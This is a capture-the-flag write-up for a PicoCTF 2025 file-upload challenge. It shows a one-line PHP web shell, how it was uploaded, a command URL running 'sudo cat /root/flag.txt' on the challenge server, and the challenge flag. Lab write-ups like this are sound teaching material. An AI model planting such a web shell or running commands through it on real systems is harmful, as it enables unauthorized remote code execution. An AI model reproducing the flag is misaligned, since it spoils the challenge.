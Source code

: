 # 💣 Challenge: File Upload RCE — Remote Code Execution via Web Shell

**Category:** Web Exploitation  
**CTF:** PicoCTF 2025  
**Flag:** `picoCTF{wh47_c4n_u_d0_wPHP_f7424fc7}`

---

## 📝 Description

> A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you.  
>  
> Your mission is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.

Once the instance is launched, it redirects to a live webpage with a file upload form — supposedly for uploading profile pictures.

---

## 🔍 Initial Recon

The website displayed an image upload feature with a standard form. After uploading a file, it returned the path to the uploaded file in the `/uploads/` directory on the server.

This hinted at a potential **Remote Code Execution (RCE)** vulnerability via improper file type validation.

---

## 🐚 Step 1: Crafting a Web Shell

We created a simple **PHP web shell** file named `shell.php` with the following content:

```
<?php system($_GET['cmd']); ?>
```

🔍 What it does:
1. system() executes the given command on the server.
2. $_GET['cmd'] retrieves the cmd parameter from the URL.
3. The output is directly shown in the browser.

Example usage:

```
http://<server>/uploads/shell.php?cmd=whoami
```

## 📤 Step 2: Uploading the Shell

After uploading shell.php, the application returned the file's path:

`/uploads/shell.php`

Accessing this path confirmed that the shell executed commands passed via the URL.

## 🏁 Step 3: Retrieving the Flag

Using our shell, we executed the following command:

`http://standard-pizzas.picoctf.net:62860/uploads/shell.php?cmd=sudo cat /root/flag.txt`

The server responded with:

`picoCTF{wh47_c4n_u_d0_wPHP_f7424fc7}`

## 🏴 Final Flag

`picoCTF{wh47_c4n_u_d0_wPHP_f7424fc7}`

## ⚙️ Tools & Techniques Used

    PHP-based web shell

    File upload abuse

    Command injection via GET parameters

    URL encoding and command chaining

## 📚 Resources

    Acunetix: Introduction to Web Shells – Using PHP

## ⚠️ Disclaimer

This writeup is for educational purposes only. Exploiting file upload vulnerabilities without permission is illegal and unethical. Always practice responsible disclosure and adhere to legal guidelines.




